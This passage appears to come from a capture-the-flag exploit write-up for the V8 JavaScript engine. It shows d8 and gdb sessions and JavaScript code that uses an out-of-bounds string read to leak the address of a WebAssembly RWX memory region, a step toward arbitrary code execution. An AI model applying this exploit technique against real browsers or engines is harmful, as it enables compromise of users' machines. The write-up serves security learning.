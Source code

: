 #### Memory leaking with OOB read

Utilizing the OOB read that we have, we can leak any value on the heap given its offset.

`d8` has this useful flag `--allow-natives-syntax` which allows us to use the `%DebugPrint` function to inspect javascript objects and get their addresses in memory. Pairing this with `gdb`, we can find the offsets between objects with relative ease.

> One thing to note is that v8 uses the last bit of each value to indicate if it is a pointer, so always do `ptr-1` when viewing object memory in `gdb`.

From previous writeups, we know that the address of the `rwx` region is referenced at `wasm_instance_addr+0x68`; therefore, if we obtain the offset between the string object and the wasm instance, we can combine the two and leak the address of the `rwx` region:

```
d8> const wasm_code = new Uint8Array([0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x85, 0x80, 0x80, 0x80, 0x00, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03, 0x82, 0x80, 0x80, 0x80, 0x00, 0x01, 0x00, 0x06, 0x81, 0x80, 0x80, 0x80, 0x00, 0x00, 0x07, 0x85, 0x80, 0x80, 0x80, 0x00, 0x01, 0x01, 0x61, 0x00, 0x00, 0x0a, 0x8a, 0x80, 0x80, 0x80, 0x00, 0x01, 0x84, 0x80, 0x80, 0x80, 0x00, 0x00, 0x41, 0x00, 0x0b]);
d8> var a = new String('helloworld');
d8> const wasm_instance = new WebAssembly.Instance(new WebAssembly.Module(wasm_code));
d8> %DebugPrint(a)
DebugPrint: 0x379b08084075: [JSPrimitiveWrapper]
 ...
 - value: 0x379b0820f501 <String[#10]: helloworld>  ← the string pointer points to this address +12
...
helloworld
d8> %DebugPrint(wasm_instance)
DebugPrint: 0x379b0820f829: [WasmInstanceObject] in OldSpace
...
[object WebAssembly.Instance]
d8> ^C
...
gef➤  der 0x379b0820f829-1                          ← wasm_instance
0x0000379b0820f828│+0x0000: 0x080406e908243169
...
0x0000379b0820f890│+0x0068: 0x00002a4e747c7000      ← rwx region address that we are looking for
```

In this case, the offset between the string object and the `rwx` region address is `(0x379b0820f829-1+0x68)-(0x379b0820f501-1+12) == 900`. With this, we get the code below:

```javascript
var m1 = 0, m2 = 0, offset=0;
for (let j = -256; j < 256; j+=4) {
  m1 = 0, m2 = 0;
  for (let i = 0; i < 4; i++) {
    m1 += a.charCodeAt(GENERAL_OFFSET+j+i) << (8*i);
  }
  for (let i = 0; i < 4; i++) {
    m2 += a.charCodeAt(GENERAL_OFFSET+j+4+i) << (8*i);
  }
  if (m2 !== 0 && m1 !== 0 && (m1&0xfff) === 0 && (m1&0x1000) === 0x1000) {
    offset = 3896+j;
    console.log('found: '+offset);
    break;
  }
}
let rwx_addr = [m2,m1];
console.log('rwx_addr: '+hex(...rwx_addr));
```
